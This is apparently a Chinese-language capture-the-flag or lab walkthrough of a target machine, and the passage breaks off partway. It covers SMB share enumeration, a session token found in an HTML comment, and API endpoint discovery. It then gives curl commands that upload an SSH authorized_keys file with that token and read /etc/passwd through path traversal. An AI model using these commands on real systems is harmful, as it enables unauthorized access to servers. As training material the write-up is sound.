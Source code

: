 ```bash
...
[*] Testing share user_files
[+] Mapping: OK, Listing: OK
```

枚举发现了一个名为 `user_files` 的共享目录，并且允许匿名访问和列出文件。尝试连接后发现目录为空，暂时没有发现可利用的文件。

# 二、Web服务渗透与漏洞利用

## 2.1 Web信息探索

访问`80`端口的HTTP服务，发现是一个“名字Gay指数计算器”的Web应用。查看网页源代码，发现一个注释提示，这可能是后续认证的关键凭证。

```html
<!-- xixilake-session-secure-2025 -->
```

这个注释 `xixilake-session-secure-2025` 看起来像一个密钥或Session令牌，我们将其记录下来以备后用。

## 2.2 API接口探索与突破

转向`1045`端口的Web服务，对其进行目录爆破发现了`/api`路径，并进一步在`/api`下找到了`/api/health`端点。访问该端点获取了API的结构信息，其中最关键的是指明了用于文件操作的路径：`/api/files/`。

```bash
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.205.156:1045/api/health
{"available_endpoints":{"/api":"API information","/api/files/":"File operations",...}}
```

结合之前发现的令牌，我们推断它可能用作`X-Session-Token`头进行身份认证。首先，在本地创建一个包含SSH公钥的文件`authorized_keys`，然后尝试利用此令牌上传该文件。

```bash
┌──(kali㉿kali)-[~]
└─$ curl -X PUT -H "X-Session-Token: xixilake-session-secure-2025" -T authorized_keys http://192.168.205.156:1045/api/files/authorized_keys
{"message":"File authorized_keys uploaded successfully"}
```

上传成功！这确认了我们拥有通过API向服务器特定目录写入文件的能力。

## 2.3 路径遍历漏洞的发现与利用

既然可以操作文件，下一步就是测试是否存在路径遍历（Path Traversal）漏洞。我们尝试通过构造 `../` 序列来读取位于Web目录之外的 `/etc/passwd` 文件。

```bash
┌──(kali㉿kali)-[~]
└─$ curl --path-as-is 'http://192.168.205.156:1045/api/files/../../../etc/passwd' -H "X-Session-Token: xixilake-session-secure-2025"
root:x:0:0:root:/root:/bin/bash
...
ll:x:1001:1001::/home/ll:/bin/bash
```
